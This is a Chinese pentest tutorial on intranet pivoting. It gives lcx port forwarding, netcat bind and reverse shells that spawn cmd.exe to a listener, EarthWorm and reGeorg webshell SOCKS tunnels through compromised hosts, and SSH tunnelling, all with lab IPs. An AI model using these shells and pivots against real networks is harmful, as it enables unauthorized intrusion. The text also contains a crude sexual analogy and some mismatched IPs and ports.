原文 by [CH_vksec](http://ch.vksec.com/2017/06/blog-post_72.html)  

最近尝试了一些内网端口的转发和内网穿透，现在一起总结一下。  

    

## 0x01 正向和反向代理

正向代理中，proxy 和 client 同属一个 LAN，对 server 透明； 反向代理中，proxy 和 server 同属一个 LAN，对 client 透明。 实际上 proxy 在两种代理中做的事都是代为收发请求和响应，不过从结构上来看正好左右互换了下，所以把前者那种代理方式叫做正向代理，后者叫做反向代理。  

### 正向代理 (Forward Proxy)  

Lhost－－》proxy－－》Rhost  
Lhost 为了访问到 Rhost，向 proxy 发送了一个请求并且指定目标是 Rhost，然后 proxy 向 Rhost 转交请求并将获得的内容返回给 Lhost，简单来说正向代理就是 proxy 代替了我们去访问 Rhost。  

### 反向代理（reverse proxy）

Lhost<--->proxy<--->firewall<--->Rhost  
和正向代理相反（废话），Lhost 只向 proxy 发送普通的请求，具体让他转到哪里，proxy 自己判断，然后将返回的数据递交回来，这样的好处就是在某些防火墙只允许 proxy 数据进出的时候可以有效的进行穿透  

### 简单区分

正向代理代理的是客户端，反向代理代理的是服务端，正向代理是我们自己 (Lhost) 戴套 (proxy) 插进去，反向代理是她 (Rhost) 主动通过上位 (proxy) 坐上来(Lhost)。  

## 0x02 lcx 转发

内网 IP：192.168.153.138  
公网 ip：192.168.153.140  
由于是本地实验，我这里将 138 的防火墙打开，当作内网环境，140 防火墙关闭，充当公网 ip，所以正常情况下不只能 138 访问 140，而 140 不能直接访问 138。这是两台机器互相 ping 的结果。  

   

    

1. 内网机器上执行：lcx.exe –slave 公网 IP + 端口 内网 IP + 端口  
`lcx.exe –slave 192.168.153.140 4444 192.168.153.138 3389`  
    
将内网 (192.168.153.138) 的 3389 端口转发到公网 (192.168.153.138) 的 4444 端口  

2. 公网 (192.168.153.138) 执行：`lcx -listen 4444 5555`  
    
监听公网 4444 端口请求，并将 4444 的请求传送给 5555 端口。 
此时已经把内网的 3389 端口转发到了公网的 5555 端口。可以通过 127.0.0.1:5555 连接到内网的远程桌面。  
    

    

## 0x03 nc 反弹

### 正向连接

在内网执行  

`nc -l -p 5555 -t -e cmd.exe`  
    

-t是通过 telne 模式执行 cmd.exe 程序，可以省略。  
在公网执行  

`nc -nvv 192.168.153.138 5555`  
    

### 反向连接

在公网监听nc -lp 5555  

      

在内网机器反弹nc -t -e cmd 192.168.153.140 5555  
     

## 0x04 socks 代理工具

常见的 socks 代理工具介绍如下  
1. Earthworm 工具网址：http://rootkiter.com/EarthWorm  
EW 是一套便携式的网络穿透工具，具有 SOCKS v5 服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。该工具能够以 "正向"、"反向"、"多级级联" 等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。工具包中提供了多种可执行文件，以适用不同的操作系统，Linux、Windows、MacOS、Arm-Linux 均被包括其内, 强烈推荐使用。   
目前已经有了最新版 Termite，工具网址：http://rootkiter.com/Termite/    

2. reGeorg 工具网址：https://github.com/NoneNotNull/reGeorg  
reGeorg 是 reDuh 的升级版，主要是把内网服务器的端口通过 http/https 隧道转发到本机，形成一个回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。它利用 webshell 建立一个 socks 代理进行内网穿透，服务器必须支持 aspx、php 或 jsp 这些 web 程序中的一种。  

3. sSocks 工具网址：http://sourceforge.net/projects/ssocks/  
sSocks 是一个 socks 代理工具套装，可用来开启 socks 代理服务，支持 socks5 验证，支持 IPV6 和 UDP，并提供反向 socks 代理服务，即将远程计算机作为 socks 代理服务端，反弹回本地，极大方便内网的渗透测试，其最新版为 0.0.13。  

4. SocksCap64 工具网址：http://www.sockscap64.com (需翻墙)  
SocksCap64 是一款在 windows 下相当好使的全局代理软件。SocksCap64 可以使 Windows 应用程序通过 SOCKS 代理服务器来访问网络而不需要对这些应用程序做任何修改, 即使某些本身不支持 SOCKS 代理的应用程序通过 SocksCap64 之后都可以完美的实现代理访问。  

5. proxychains 工具网址：http://proxychains.sourceforge.net/  
Proxychains 是一款在 LINUX 下可以实现全局代理的软件，性能相当稳定可靠。在使任何程序通過代理上网，允許 TCP 和 DNS 通過代理隧道，支持 HTTP、SOCKS4、SOCKS5 類型的代理服务器，支持 proxy chain，即可配置多个代理，同一個 proxy chain 可使用不同类型的代理服务器  

### 0x04.1 reGeorg+Proxychains 代理  

上传 reGeorg 的 tunnel.jsp 到服务器。访问链接，并转发到本地端口。  

`python reGeorgSocksProxy.py -p 1080 -u http://192.168.153.137/tunnel.jsp`    
    

使用设置 proxychains 的代理端口，进行访问，一般配合 nmap 和 metasploit 进行后续内网渗透。ps：proxychains 不支持 udp 和 icmp 协议，所以使用 nmap 要加上-sT -Pn即使用 tcp 协议且不使用 icmp 协议。  
    

### 0x04.2 ew 穿透

该工具借用了 ssocks 和 lcx.exe 的操作逻辑，并进行更多的功能强化。  

    

说明  

目前工具提供六种链路状态，可通过 -s 参数进行选定，分别为:      
`ssocksd   rcsocks   rssocks        lcx_slave lcx_tran  lcx_listen `      
其中 SOCKS5 服务的核心逻辑支持由 ssocksd 和 rssocks 提供，分别对应正向与反向socks代理。        
其余的 lcx 链路状态用于打通测试主机同 socks 服务器之间的通路。   
lcx 类别管道：  
lcx_slave  该管道一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机。     
lcx_tran   该管道，通过监听本地端口接收代理请求，并转交给代理提供主机。    
lcx_listen 该管道，通过监听本地端口接收数据，并将其转交给目标网络回连的代理提供主机。       
通过组合lcx类别管道的特性，可以实现多层内网环境下的渗透测试。       
下面是一个三级跳的本地测试例子。 
```
./ew -s rcsocks -l 1080 -e 8888     
./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999     
./ew -s lcx_listen -l 9999 -e 7777     
./ew -s rssocks -d 127.0.0.1 -e 7777
```     
数据流向为   IE -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks  

#### 0x04.2.1 正向 SOCKS5 服务器

当目标网络边界存在公网 IP 且可任意开监听端口  

`ew_for_Win.exe -s ssocksd -l 8888`  
    

上述命令是在该机器（192.168.153.140）开启一个 8888 的正向连接端口。然后其它主机可通过设置代理为 192.168.153.140:8888 添加这个代理。这里使用的是 proxychains  

    

#### 0x04.2.2 反弹 SOCKS5 服务器

当目标网络边界不存在公网 IP，通过反弹方式创建 socks 代理。  
先在一台具有公网 ip 的主机 A 上运行以下命令  

`./ew_for_linux64 -s rcsocks -l 1080 -e 8888`  

   

意思是在我们公网 VPS 上添加一个转接隧道，把 1080 端口收到的代理请求转交给 8888 端口  

在目标主机 B 上启动 SOCKS5 服务 并反弹到公网主机的 8888 端口  

`ew_for_Win.exe -s rssocks -d 192.168.153.129 -e 8888`  

   

本地主机（192.168.153.129）然后通过添加公网 192.168.153.129:1080 这个代理, 来访问内网机器（192.168.153.129）
当然如果本地主机如果是公网 ip，就可以把在公网执行的步骤放在本地执行即可。  


   

#### 0x04.2.3 二级网络环境（一）

假设我们获得了右侧 A 主机和 B 主机的控制权限，A 主机配有 2 块网卡，一块 10.129.72.168 连通外网，一块 192.168.153.140 只能连接内网 B 主机，无法访问内网其它资源。B 主机可以访问内网资源，但无法访问外网。  


     

先上传 ew 到 B 主机，利用 ssocksd 方式启动 8888 端口的 SOCKS 代理，命令如下  

`ew_for_Win.exe -s ssocksd -l 8888`  
然后在 A 主机执行  

`ew_for_Win.exe -s lcx_tran -l 1080 -f 192.168.153.138 -g 8888`  

    

含义是将 1080 端口收到的代理请求转交给 B 主机（192.168.153.138）的 8888 端口  
然后 My pc 就可以通过 A 的外网代理 10.129.72.168:1080 访问 B。  

     

#### 0x04.2.4 二级网络环境（二）

假设我们获得了右侧 A 主机和 B 主机的控制权限，A 主机没有公网 IP，也无法访问内网资源。B 主机可以访问内网资源，但无法访问外网。  

      

这次操作有四步。  

1. 在公网 vps（45.xxx.xxx.72）添加转接隧道，将 10800 端口收到的代理请求转交给 8888 端口  
`./ew_for_linux64 -s lcx_listen -l 10800 -e 8888`  
      

2. B（192.168.153.138）主机正向开启 8888 端口  
`ew_for_Win.exe -s ssocksd -l 9999`  
      

3. A 主机利用 lcx_slave 方式，将公网 VPS 的 888 端口和 B 主机的 999 端口连接起来  
`ew_for_Win.exe -s lcx_slave -d 45.xxx.xxx.72 -e 8888 -f 192.168.153.138 -g 9999`  
    

4. 现在 my pc 可通过访问 45.xxx.xxx.72:10800 来使用 192.168.153.138 主机提供的 socks5 代理，代理成功，vps 会有 rssocks cmd_socket OK! 提示  

      

      

## 0x05 ssh 隧道代理转发

ssh 有三个强大的端口转发命令，分别是本地转发、远程转发、动态转发。     

本地访问127.0.0.1:port1就是host:port2(用的更多)   
`ssh -CfNg -L port1:127.0.0.1:port2 user@host `   #本地转发   
访问host:port2就是访问127.0.0.1:port1   
`ssh -CfNg -R port2:127.0.0.1:port1 user@host`    #远程转发   
可以将dmz_host的hostport端口通过remote_ip转发到本地的port端口   
`ssh -qTfnN -L port:dmz_host:hostport -l user remote_ip`   #正向隧道
监听本地port 可以将dmz_host的hostport端口转发到remote_ip的port端口   
`ssh -qTfnN -R port:dmz_host:hostport -l user remote_ip`   #反向隧道  
用于内网穿透防火墙限制之类   
socket 代理: `ssh -qTfnN -D port remotehost`   

参数详解：   
-q Quiet mode. 安静模式   
-T Disable pseudo-tty allocation. 不占用 shell 了  
-f Requests ssh to go to background just before command execution. 后台运行，并推荐加上 -n 参数 -N Do not execute a remote command. 不执行远程命令，端口转发就用它了   
`-L port:host:hostport`  将本地机(客户机)的某个端口转发到远端指定机器的指定端口. 工作原理是这样的, 本地机器上分配了一个 socket 侦听 port 端口, 一旦这个端口上有了连接, 该连接就经过安全通道转发出去, 同时远程主机和 host 的 hostport 端口建立连接. 可以在配置文件中指定端口的转发. 只有 root 才能转发特权端口.   
IPv6 地址用另一种格式说明: `port/host/hostport -R port:host:hostport`  将远程主机(服务器)的某个端口转发到本地端指定机器的指定端口. 工作原理是这样的, 远程主机上分配了一个 socket 侦听 port 端口, 一旦这个端口上有了连接, 该连接就经过安全通道转向出去, 同时本地主机和 host 的 hostport 端口建立连接. 可以在配置文件中指定端口的转发. 只有用 root 登录远程主机才能转发特权端口.  
IPv6 地址用另一种格式说明: port/host/hostport -D port  指定一个本地机器 "动态的'' 应用程序端口转发. 工作原理是这样的, 本地机器上分配了一个 socket 侦听 port 端口, 一旦这个端口上有了连接, 该连接就经过安全通道转发出去, 根据应用程序的协议可以判断出远程主机将和哪里连接. 目前支持 SOCKS协议, 将充当SOCKS服务器. 只有 root 才能转发特权端口. 可以在配置文件中指定动态端口的转发.  

### 0x05.1 ssh 本地转发

远程管理服务器上的 mysql，mysql 不能直接 root 远程登陆。这时候就可以通过本地转发，通过 ssh 将服务器的 3306 端口转发到本地 1234 端口  

`ssh -CfNg -L 1234 127.0.0.1:3306 root@45.32.31.121`  
      

### 0x05.2 ssh 远程转发

内网的服务器，外网不能直接访问，使用远程转发，将内网的服务器端口转发到外网端口。这时候访问外网的端口，就访问到了内网的端口。  

`ssh -CfNg -R 81:127.0.0.1:80 root@192.168.153.142`  
      

    

现在在 192.168.153.142 访问 127.0.0.1:81 就是访问内网的服务器的 80 端口。  

### 0x05.3 ssh 动态转发 socks 代理 

把远程主机设置成代理，来代理访问不能访问的资源。在地机器上分配了一个监听端口, 一旦这个端口上有了连接, 该连接就经过 ssh 隧道转发出去, 根据应用程序的协议可以判断出远程主机将和哪里连接。  

`ssh -qTfnN -D 1080  root@45.32.31.121`  
      

      